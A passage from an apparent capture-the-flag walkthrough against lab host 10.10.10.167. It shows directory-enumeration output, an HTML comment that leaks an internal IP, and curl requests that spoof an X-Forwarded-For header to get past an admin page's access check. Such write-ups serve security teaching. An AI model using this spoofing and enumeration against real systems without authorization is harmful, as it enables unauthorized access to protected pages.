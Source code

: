 The SQL server gives us a connection refused so we'll go with the HTTP server.

### Webapp Enumeration

**TL;DR**: `admin.php`, `X-Forwarded-For`

Optionally you can run a web discovery tool like [dirsearch][dirsearch] even
if not needed here.

```
Target: 10.10.10.167

[23:56:22] Starting:
[23:56:22] 403 -  312B  - /%2e%2e/google.com
[23:56:28] 200 -    8KB - /about.php
[23:56:30] 200 -   89B  - /admin.php
[23:56:30] 200 -   89B  - /Admin.php
[23:56:35] 301 -  150B  - /assets  ->  http://10.10.10.167/assets/
[23:56:40] 200 -    0B  - /database.php
[23:56:44] 301 -  150B  - /images  ->  http://10.10.10.167/images/
[23:56:44] 301 -  150B  - /Images  ->  http://10.10.10.167/Images/
[23:56:44] 200 -    3KB - /index.php
[23:56:44] 200 -    3KB - /INDEX.PHP
[23:56:44] 200 -    3KB - /index.php/login/
[23:56:44] 200 -    3KB - /index.PHP
[23:56:45] 200 -   17KB - /license.txt
[23:56:45] 200 -   17KB - /LICENSE.txt
[23:56:45] 200 -   17KB - /License.txt
[23:56:57] 301 -  151B  - /uploads  ->  http://10.10.10.167/uploads/
[23:56:57] 403 -    1KB - /uploads/
```

If we take a look at the source of `index.php` we can see the following comment:

```html
  <!-- To Do:
    - Import Products
    - Link to new payment system
    - Enable SSL (Certificates location \\192.168.4.28\myfiles)
  <!-- Header -->
```

Very interesting comment that will help us in the near future.

Not let's try to reach the `admin.php` page:

```
$ curl http://10.10.10.167/admin.php
Access Denied: Header Missing. Please ensure you go through the proxy to access this page
```

We are denied but we are supposed to go through a proxy, so let's add a
`X-Forwarded-For` HTTP header and using an internal address we saw the a comment
before `192.168.4.28`.

```
$ curl http://10.10.10.167/admin.php -H 'X-Forwarded-For: 192.168.4.28'
```

